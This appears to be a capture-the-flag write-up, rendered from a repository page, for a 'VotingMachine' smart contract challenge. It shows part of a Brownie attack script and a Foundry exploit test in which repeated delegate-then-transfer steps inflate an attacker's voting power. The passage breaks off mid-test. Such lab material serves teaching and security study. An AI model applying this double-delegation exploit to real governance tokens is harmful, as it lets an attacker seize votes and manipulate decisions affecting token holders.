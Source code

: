 ```py
    print(f"{green}Balance of Alice: {magenta}{vToken.balanceOf(alice)}{reset}")
    print(f"{green}Balance of Bob: {magenta}{vToken.balanceOf(bob)}{reset}")
    print(f"{green}Balance of Carl: {magenta}{vToken.balanceOf(carl)}{reset}")
    print(f"{green}Balance of Atacker: {magenta}{vToken.balanceOf(attacker)}{reset}")
    print(f"{green}Attacker votes: {red}{vToken.getVotes(attacker)}{reset}")

    assert vToken.getVotes(attacker) == 3000
    assert vToken.balanceOf(attacker) == 1000


def main():
    attack()
```
- Run like this 
```js
brownie run scripts/attack.py
```

![](assets/voting_m1.png)

## Foundry
- `exploitTest.t.sol`. The logic is the same

```js
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.12;

import "forge-std/Test.sol";
import "../src/VotingMachine.sol";

contract exploitTest is Test {
    VoteToken vToken;
    address public owner = address(0);
    address public hacker = address(1337);

    address public alice = address(1);
    address public bob = address(2);
    address public carl = address(3);

    function setUp() public {
        vm.startPrank(owner);
        vToken = new VoteToken();
        vToken.mint(alice, 1000);
        vm.stopPrank();
    }

    function testExploit() public {
        uint hacker_vote = vToken.getVotes(hacker);
        vm.startPrank(alice);

        // soluiton
        vToken.delegate(hacker);
        console.log("Hacker's vote: ", vToken.getVotes(hacker));

        vToken.transfer(bob, 1000);
        // console.log("Bob's bakance: ", vToken.balanceOf(bob));
        vm.stopPrank();

        vm.startPrank(bob);
        vToken.delegate(hacker);
        console.log("Hacker's vote: ", vToken.getVotes(hacker));

        vToken.transfer(carl, 1000);
```